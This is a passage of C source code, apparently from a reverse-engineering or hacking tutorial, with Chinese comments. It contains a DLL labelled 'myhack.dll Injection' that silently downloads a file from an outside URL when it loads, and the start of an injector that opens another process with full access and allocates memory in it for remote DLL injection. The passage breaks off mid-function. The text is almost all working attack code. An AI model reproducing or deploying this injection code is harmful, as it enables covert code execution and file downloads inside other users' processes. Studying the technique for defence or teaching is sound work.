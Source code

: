 ```c  
#include "windows.h"  
#include "tchar.h"  
#include "urlmon.h"  
#pragma comment(lib, "urlmon.lib")  
#define DEL_URL (L"http://baidu.com/index.html")  
#define DEL_FILE_NAME (L"index.html")  
  
HMODULE g_hMod = NULL;  
  
DWORD WINAPI ThreadProc(LPVOID lParam)  
{  
	TCHAR szPath[_MAX_PATH] = { 0, };  
	if (!GetModuleFileName(g_hMod, szPath, MAX_PATH))  
		return FALSE;  
	OutputDebugString(szPath);  
	TCHAR *p = _tcsrchr(szPath, '\\');  
	if (!p)  
		return FALSE;  
	_tcscpy_s(p + 1, _MAX_PATH, DEL_FILE_NAME);  
	URLDownloadToFile(NULL, DEL_URL, szPath, 0, NULL);  
	return 0;  
}  
  
BOOL APIENTRY DllMain( HMODULE hModule,  
                   DWORD  ul_reason_for_call,  
                   LPVOID lpReserved  
                 )  
{  
	HANDLE hThread = NULL;  
	g_hMod = hModule;  
switch (ul_reason_for_call)  
{  
case DLL_PROCESS_ATTACH:  
		OutputDebugString(_T("myhack.dll Injection!!!"));  
		hThread = CreateThread(NULL, 0, ThreadProc, NULL, 0, NULL);  
		CloseHandle(hThread);  
		break;  
case DLL_THREAD_ATTACH:  
case DLL_THREAD_DETACH:  
case DLL_PROCESS_DETACH:  
    break;  
}  
return TRUE;  
}  
  
// InjectDll.c  
#include "windows.h"  
#include "tchar.h"  
BOOL InjectDll(DWORD dwPID, LPCTSTR szDllPath)  
{  
	HANDLE hProcess = NULL, hThread = NULL;  
	HMODULE hMod = NULL;  
	LPVOID pRemoteBuf = NULL;  
	DWORD dwBufSize = (DWORD)(_tcslen(szDllPath) + 1) * sizeof(TCHAR);  
	LPTHREAD_START_ROUTINE pThreadProc;  
    // 获取目标进程句柄  
	if (!(hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID)))  
	{  
		_tprintf(L"OpenProcess(%d) failed!!![%d]\n", dwPID, GetLastError());  
		return FALSE;  
	}  
	// 在目标进程内存中分配szDllName大小的内存  
	pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwBufSize, MEM_COMMIT, PAGE_READWRITE);  
```